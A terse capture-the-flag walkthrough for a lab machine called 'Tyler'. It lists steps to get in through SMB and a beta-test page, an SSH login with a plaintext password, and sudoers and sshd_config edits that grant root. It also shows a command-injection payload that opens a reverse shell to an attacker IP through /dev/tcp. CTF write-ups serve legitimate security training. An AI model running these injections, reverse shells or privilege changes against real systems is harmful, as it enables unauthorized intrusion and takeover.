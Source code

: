 # Tyler
## Method 1
1. http://tyler.thm/upload or `smbclient ////tyler.thm//public` and `get alert.txt`
2. http://tyler.thm/betatest check for `narrator`
3. `ssh narrator@tyler.thm` password: `X8JEETQmf3hkS65f`
4. `vim /etc/sudoers` and add narrator to sudoers
5. `narrator ALL=(ALL) ALL`
6. `vim /etc/ssh/sshd_config` and `PermitRootLogin` no to yes.
## Method 2
1. http://tyler.thm/betatest
2. `nc -nvlp 8888` on kali
3. `tdurden;sh -i >& /dev/tcp/10.8.85.10/8888 0>&1` to betatest



## Exploit 
https://www.exploit-db.com/exploits/47044
